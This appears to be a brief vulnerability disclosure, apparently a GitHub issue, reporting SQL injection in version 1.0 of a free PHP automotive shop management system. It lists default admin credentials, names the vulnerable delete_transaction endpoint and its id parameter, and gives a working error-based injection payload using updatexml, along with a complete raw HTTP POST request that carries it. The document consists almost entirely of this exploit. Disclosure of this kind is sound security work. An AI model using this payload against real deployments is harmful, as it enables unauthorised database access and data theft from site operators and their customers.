 # Automotive Shop Management System v1.0 by oretnom23 has SQL injection

BUG_Author: acvxd

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/15312/automotive-shop-management-system-phpoop-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File:  /asms/classes/Master.php?f=delete_transaction

Vulnerability location: /asms/classes/Master.php?f=delete_transaction, id

dbname =asms_db,length=7

[+] Payload:  id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
POST /asms/classes/Master.php?f=delete_transaction HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=0bfse7548hblm5lblclp48r057; dou_member_id=1; dou_member_code=3a2d7d2301afce4cf127
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 67

id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/198047052-c7bfb631-0d50-4047-a318-ed8e72b6d4df.png)

